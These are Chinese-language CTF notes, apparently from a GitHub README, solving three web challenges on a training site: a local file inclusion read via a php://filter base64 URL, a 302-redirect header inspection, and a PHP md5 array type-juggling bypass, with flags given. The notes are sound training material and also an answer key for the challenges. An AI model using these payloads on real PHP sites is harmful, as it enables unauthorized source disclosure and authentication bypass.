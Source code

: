 ##CTF联系纪要##
##实验地址：https://cgctf.nuptsast.com/challenges#Web###
###实验资料：https://ctf-wiki.github.io/ctf-wiki

1.web
 .文件包含 属于php代码审计类
 题目：文件包含没错 这就是传说中的LFI
 源码分析：<html>
    <title>asdf</title>
    
<a href="./index.php?file=show.php">click me? no</a></html>
使用连接：http://4.chinalover.sinaapp.com/web7/index.php?file=php://filter/convert.base64-encode/resource=index.php  decode base64获得flag

.查看header 单身一百年也没用
源码分析：
<html>
    <head>
        <meta http-equiv="content-type" content="text/html;charset=utf-8">
    </head>
    <body>
        <a href="./index.php">_到这里找key__</a>
    </body>
</html>
使用工具fiddler  这是一个302重定向  查看header的 miscellaneous 得到flag
<h3>题目bypass again<h3>依然是php代码审计md5弱类型 使用md5md5() 中的需要是一个 string 类型的参数。但是当你传递一个 array 时，md5() 不会报错，只是会无法正确地求出 array 的 md5 值，这样就会导致任意 2 个 array 的 md5 值都会相等。
 <code>
  if (isset($_GET['a']) and isset($_GET['b'])) {
if ($_GET['a'] != $_GET['b'])
if (md5($_GET['a']) == md5($_GET['b']))
die('Flag: '.$flag);
else
print 'Wrong.';
}
Flag: nctf{php_is_so_cool}
 </code>
构造http://chinalover.sinaapp.com/web17/index.php?a[]=123&b[]=232  
